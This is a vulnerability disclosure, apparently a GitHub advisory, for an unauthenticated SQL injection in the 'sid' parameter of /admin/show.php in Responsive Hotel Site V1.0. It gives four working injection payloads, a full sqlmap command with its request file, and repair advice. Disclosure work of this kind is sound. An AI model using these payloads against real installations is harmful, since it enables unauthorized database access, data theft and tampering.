


# Responsive Hotel Site V1.0 /admin/show.php SQL injection

# NAME OF AFFECTED PRODUCT(S)

- Responsive Hotel Site

## Vendor Homepage

- [Responsive Hotel Site Using PHP With Source Code - Source Code & Projects](https://code-projects.org/responsive-hotel-site-using-php-source-code/)

# AFFECTED AND/OR FIXED VERSION(S)

## submitter

- 柴露佳、侯洋、蒋思迪、朱杰、廖国兆

## VERSION(S)

- V1.0

## Software Link

- [Responsive Hotel Site Using PHP With Source Code - Source Code & Projects](https://code-projects.org/responsive-hotel-site-using-php-source-code/)

# PROBLEM TYPE

## Vulnerability Type

- SQL injection

## Root Cause

- A SQL injection vulnerability was found in the '/admin/show.php' file of the 'Responsive Hotel Site' project. The reason for this issue is that attackers inject malicious code from the parameter "sid" and use it directly in SQL queries without the need for appropriate cleaning or validation. This allows attackers to forge input values, thereby manipulating SQL queries and performing unauthorized operations.

## Impact

- Attackers can exploit this SQL injection vulnerability to achieve unauthorized database access, sensitive data leakage, data tampering, comprehensive system control, and even service interruption, posing a serious threat to system security and business continuity.

# DESCRIPTION

- During the security review of "Responsive Hotel Site", discovered a critical SQL injection vulnerability in the "/admin/show.php" file. This vulnerability stems from insufficient user input validation of the 'sid' parameter, allowing attackers to inject malicious SQL queries. Therefore, attackers can gain unauthorized access to databases, modify or delete data, and access sensitive information. Immediate remedial measures are needed to ensure system security and protect data integrity.

# No login or authorization is required to exploit this vulnerability

# Vulnerability details and POC

## Vulnerability type:

- time-based blind
- boolean-based blind
- error-based
- UNION query

## Vulnerability location:

- 'sid' parameter

## Payload:

```
Parameter: #1* (URI)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: http://10.151.169.235:8833/admin/show.php?sid=1' AND 8029=8029-- VToc
    Vector: AND [INFERENCE]

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: http://10.151.169.235:8833/admin/show.php?sid=1' OR (SELECT 1574 FROM(SELECT COUNT(*),CONCAT(0x71707a7071,(SELECT (ELT(1574=1574,1))),0x71766b7a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- OoxU
    Vector: OR (SELECT [RANDNUM] FROM(SELECT COUNT(*),CONCAT('[DELIMITER_START]',([QUERY]),'[DELIMITER_STOP]',FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: http://10.151.169.235:8833/admin/show.php?sid=1' AND (SELECT 3162 FROM (SELECT(SLEEP(5)))TMPX)-- XXRy
    Vector: AND (SELECT [RANDNUM] FROM (SELECT(SLEEP([SLEEPTIME]-(IF([INFERENCE],0,[SLEEPTIME])))))[RANDSTR])

    Type: UNION query
    Title: Generic UNION query (NULL) - 16 columns
    Payload: http://10.151.169.235:8833/admin/show.php?sid=1' UNION ALL SELECT NULL,NULL,NULL,CONCAT(0x71707a7071,0x595673745a6e6b72747257627357415967744a4d4f675253424c4e556f6c7a5a4e515549474c4f5a,0x71766b7a71),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -
    Vector:  UNION ALL SELECT NULL,NULL,NULL,[QUERY],NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -
```



## The following are screenshots of some specific information obtained from testing and running with the sqlmap tool:

```
python sqlmap.py -r data.txt --dbs -v 3 --batch --level 5
//data.txt
GET /admin/show.php?sid=1* HTTP/1.1
Host: 10.151.169.235:8833
Cache-Control: max-age=0
Origin: http://10.151.169.235:8833
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/140.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.151.169.235:8833/admin/roomdel.php
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=cuq6v5v2e97ubeodt33s8k4ot9
Connection: keep-alive
```

# Attack results



# Suggested repair


1. **Use prepared statements and parameter binding:** Preparing statements can prevent SQL injection as they separate SQL code from user input data. When using prepare statements, the value entered by the user is treated as pure data and will not be interpreted as SQL code.
2. **Input validation and filtering:** Strictly validate and filter user input data to ensure it conforms to the expected format.
3. **Minimize database user permissions:** Ensure that the account used to connect to the database has the minimum necessary permissions. Avoid using accounts with advanced permissions (such as' root 'or' admin ') for daily operations.

4. **Regular security audits:** Regularly conduct code and system security audits to promptly identify and fix potential security vulnerabilities.
